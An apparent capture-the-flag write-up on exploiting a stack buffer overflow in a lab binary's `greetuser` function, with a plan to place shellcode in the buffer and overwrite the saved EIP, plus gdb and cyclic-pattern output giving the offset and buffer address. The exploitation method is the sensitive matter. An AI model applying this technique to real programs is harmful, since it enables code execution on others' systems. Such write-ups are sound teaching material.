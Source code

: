 
### Exploitation Potential

We can:

1. **Craft Input**: Supply `argv[1]` (40 bytes) and `argv[2]` (32 bytes) with no null bytes in the first 72 bytes of `s1`, followed by `\0` at `s1[72]`.
2. **Control Overflow**: Include:
   - Shellcode within the 72 bytes.
   - A new return address (e.g., pointing to `dest`) at `dest[76]` to `dest[79]`.
3. **Execution**: When `greetuser` returns, the corrupted EIP redirects execution to the attacker’s code.

For example:
- `argv[1]`: 40 bytes of shellcode.
- `argv[2]`: 32 bytes, with the last 4 bytes as the address of `dest`.
- Result: `s1` overflows `dest`, placing the shellcode in the stack and redirecting EIP to it.

---

# Exploiting

Find offset from **second argument** to stored **EIP**.

First make sure to set **LANG** env to **nl** with `export LANG=nl`.


```
 ❯ python3 tools/cyclic.py -g 40
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A


=> 0x08048527 <+163>:   leave
   0x08048528 <+164>:   ret
End of assembler dump.
gdb-peda$ x/wx $ebp + 0x4
0xbffff60c:     0x38614137


 ❯ python3 tools/cyclic.py -o 0x38614137
Offset found at: 23
```

So the offset between **EIP** and start of **second argument** is **23**.

We have **40** (first argument) + **23** = **63** to put a shellcode within.

the address of `dest` on greetuser which contain `argv1 + argv2` is `0xbffff5c0`:

```
gdb-peda$ p $ebp - 0x48
$1 = (void *) 0xbffff5c0
```

Due gdb add some extrat envs before initialize the proccess, cause to move stack addresses up, usually the actual address on normal execution is `-16 to -32`.
